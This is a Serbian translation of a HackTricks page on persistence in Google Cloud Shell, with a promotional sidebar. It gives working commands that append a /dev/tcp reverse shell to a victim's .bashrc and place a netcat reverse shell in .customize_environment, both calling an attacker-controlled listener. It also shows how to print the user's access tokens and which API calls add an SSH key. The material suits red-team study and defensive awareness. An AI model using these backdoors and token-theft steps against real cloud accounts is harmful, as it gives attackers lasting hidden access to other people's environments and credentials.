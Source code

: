 # GCP - Cloud Shell Upornost

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJATELJSTVO**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* github repozitorijumi.

</details>

## Cloud Shell

Za više informacija pogledajte:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Trajna Zadnja Vrata

[**Google Cloud Shell**](https://cloud.google.com/shell/) pruža vam pristup komandnoj liniji za vaše cloud resurse direktno iz vašeg pregledača bez ikakvih dodatnih troškova.

Možete pristupiti Google-ovom Cloud Shell-u sa **web konzole** ili pokretanjem **`gcloud cloud-shell ssh`**.

Ova konzola ima neke zanimljive mogućnosti za napadače:

1. **Svaki Google korisnik sa pristupom Google Cloud-u** ima pristup potpuno autentifikovanom Cloud Shell instanci (Servisni nalozi mogu, čak i ako su Vlasnici organizacije).
2. Pomenuta instanca će **zadržati svoj matični direktorijum najmanje 120 dana** ako se ne desi nikakva aktivnost.
3. Ne postoje **mogućnosti za organizaciju da nadgleda** aktivnost te instance.

To u osnovi znači da napadač može postaviti zadnja vrata u matičnom direktorijumu korisnika i sve dok se korisnik povezuje sa GC Shell-om svakih 120 dana barem, zadnja vrata će preživeti i napadač će dobiti shell svaki put kada se pokrene samo radeći:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Postoji još jedan fajl u matičnom folderu pod nazivom **`.customize_environment`** koji će, ukoliko postoji, biti **izvršen svaki put** kada korisnik pristupi **cloud shell-u** (kao u prethodnoj tehnici). Samo ubacite prethodnu pozadinsku ulaznu tačku ili neku sličnu kako biste održali postojanost dok god korisnik "često" koristi cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Važno je napomenuti da će se **prvi put kada se izvrši radnja koja zahteva autentifikaciju**, pojaviti prozor za autorizaciju u korisnikovom pregledaču. Ovaj prozor mora biti prihvaćen pre nego što se komanda može izvršiti. Ako se pojavi neočekivani prozor, to bi moglo izazvati sumnju i potencijalno ugroziti korišćenu metodu upornosti.
{% endhint %}

Ovo je prozor koji se pojavljuje prilikom izvršavanja `gcloud projects list` iz cloud shell-a (kao napadač) viđen u korisničkoj sesiji pregledača:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Međutim, ako je korisnik aktivno koristio cloud shell, prozor zahteva za autorizaciju se neće pojaviti i možete **prikupiti token korisnika sa**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Kako se uspostavlja SSH veza

Osnovno, koriste se ove 3 API poziva:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (će vam omogućiti da dodate svoj javni ključ koji ste kreirali lokalno)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (će pokrenuti instancu)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (će vam reći IP adresu Google Cloud Shell-a)

Međutim, možete pronaći dodatne informacije na [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Reference

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
